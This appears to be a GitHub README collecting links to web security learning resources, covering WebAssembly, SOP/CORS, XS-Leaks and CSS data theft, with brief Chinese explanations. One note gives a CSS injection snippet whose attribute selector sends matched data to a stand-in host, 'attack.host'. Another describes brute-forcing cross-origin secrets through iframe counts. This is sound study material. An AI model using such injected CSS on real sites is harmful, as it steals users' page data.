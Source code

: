 # Web-Security-Learning    
Let's learn about Web Security.  

# Here comes the collection of some good articles
## How to take a good practice
* [安全研究者的自我修养](https://mp.weixin.qq.com/s?__biz=MzU0MzgzNTU0Mw==&mid=2247483913&idx=1&sn=2a0558592e072389e348dc8f7c6223d1&chksm=fb0416f1cc739fe7aed6f45167dc5a555974aaeb250cdcdc3bdd973ae151b8534a7c2cef6c43&scene=21#wechat_redirect)  
* [So you want to be a web security researcher?](https://portswigger.net/blog/so-you-want-to-be-a-web-security-researcher)  
* [如何阅读一份源代码？](https://www.codedump.info/post/20190324-how-to-read-code/)  

## WASM
* [WebAssembly Concepts
](https://developer.mozilla.org/en-US/docs/WebAssembly/Concepts)  
* [Using the WebAssembly JavaScript API
](https://developer.mozilla.org/en-US/docs/WebAssembly/Using_the_JavaScript_API)  
* [Introduction to WebAssembly](https://sensepost.com/blog/2018/introduction-to-webassembly/)  
* [玩轉 WebAssembly && 逆向](https://blog.1pwnch.com/web/reverse/2019/05/22/Say-Hello-to-WASM/#more)

## Frontend
* [你真的会使用XMLHttpRequest吗?](https://segmentfault.com/a/1190000004322487)  
* [SOP與CORS安全詳解](https://jiwo.org/ken/detail.php?id=2393)  

## XS-Leaks
* [Exposing Intranets with reliable Browser-based Port scanning](https://portswigger.net/blog/exposing-intranets-with-reliable-browser-based-port-scanning)  
* [从35c3CTF的filemanager题目中学到的一个小tips](https://blog.wonderkun.cc/2018/12/30/%E4%BB%8E35c3CTF%E7%9A%84filemanager%E9%A2%98%E7%9B%AE%E4%B8%AD%E5%AD%A6%E5%88%B0%E7%9A%84%E4%B8%80%E4%B8%AA%E5%B0%8Ftips/#more)  
* [github-xsleaks](https://github.com/xsleaks/xsleaks/wiki)  
* [secret note keeper -- Facebook CTF 2019](https://sectt.github.io/writeups/FBCTF19/secret_note_keeper/README)  
* [gimme-a-bit-exploring-attacks-in-the-post-xss-world](https://speakerdeck.com/lmt_swallow/gimme-a-bit-exploring-attacks-in-the-post-xss-world)  

雖然和XSS一樣是跨域偷信息的技巧，但因為受限於SOP所以不是直接回傳信息，而是利用盲注: **配合爆破觀察瀏覽器的行為**(猜中和沒猜中頁面會有何差異)! 至於如何跨域觀察瀏覽器的行為呢? 特定信息是可以跨域傳送的，像是iframe count就不受SOP的限制，樓上35c3的filemanager就是利用onload數量和xss-auditor來跨域爆破出flag的!  

## Steal data with CSS
* [使用CSS窃取数据：攻击与防守](http://www.fwheart.club/2019/04/08/[%E8%AF%91]%E4%BD%BF%E7%94%A8CSS%E7%AA%83%E5%8F%96%E6%95%B0%E6%8D%AE%EF%BC%9A%E6%94%BB%E5%87%BB%E4%B8%8E%E9%98%B2%E5%AE%88/)  

在頁面中注入css，利用attribute selector，若match則傳送特定query (`{background:url("https://attack.host/aa");}`) 到自己的server以竊取資訊!
